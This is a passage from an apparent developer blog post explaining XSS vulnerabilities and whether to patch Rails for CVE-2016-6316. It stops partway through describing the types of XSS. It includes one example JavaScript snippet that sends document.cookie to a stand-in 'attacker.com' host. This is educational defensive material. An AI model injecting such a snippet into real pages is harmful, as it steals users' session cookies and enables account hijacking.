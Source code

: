 ```yaml
---
id: 595
title: Do I really need to patch my Rails apps? (Understanding CVE-2016-6316)
date: 2020-04-06T13:34:35-04:00
author: Sid
layout: revision
guid: https://ducktypelabs.com/436-revision-v1/
permalink: /436-revision-v1/
---
```

Ruby and Rails security advisories, without exception, recommend that you upgrade your Rails app as soon as possible. Unfortunately, the descriptions of the problem being solved can be cryptic, and it can be hard to assess if you really need to do the upgrade. If you&#8217;re strapped for time, it can seem like a good plan to postpone upgrades and avoid extra work like fixing breaking tests.

**Note:** By &#8220;upgrade&#8221; in this article, we mean a &#8216;minor&#8217; or a &#8216;patch&#8217; upgrade. For example an upgrade from Rails `4.2.5.1` to `4.2.7.1`.

In this article, we&#8217;re going to look at Rails `5.0.0.1/4.2.7.1/3.2.22.3`, which fixes [CVE-2016-6316](https://groups.google.com/forum/#!topic/rubyonrails-security/I-VWr034ouk). The aims of this article are:

  1. To go over the basics of XSS vulnerabilities, how they can be exploited, and ways to mitigate them. 
  2. To increase your understanding about the specific problem being solved with the Rails `5.0.0.1/4.2.7.1` release which fixes CVE-2016-6316 &#8211; an XSS vulnerability in `ActionView` and,
  3. Help you come to a conclusion on whether you should upgrade or not

## What is an XSS Vulnerability?

&#8220;XSS&#8221; stands for cross-site scripting. When your application has an XSS vulnerability, attackers can run malicious Javascript on your users&#8217; browsers. For example, consider a Javascript snippet like the following:

    var i = new Image;
    i.src = "http://attacker.com/" + document.cookie;
    

The above snippet, when run on a user&#8217;s browser, will cause the browser to make a request to `attacker.com` and send over the user&#8217;s cookie. Using this cookie, the attacker can proceed to hijack the user&#8217;s session and gain unauthorized access to secured areas of your app.

## Types of XSS Vulnerabilities

There are three major varieties of XSS:

**Reflected XSS**

A reflected XSS vulnerability arises when user input contained in a request is immediately reflected in the web application&#8217;s response. Exploiting a reflected XSS vulnerability involves crafting a request containing embedded Javascript that is reflected to any user who makes the request.

**Stored XSS**
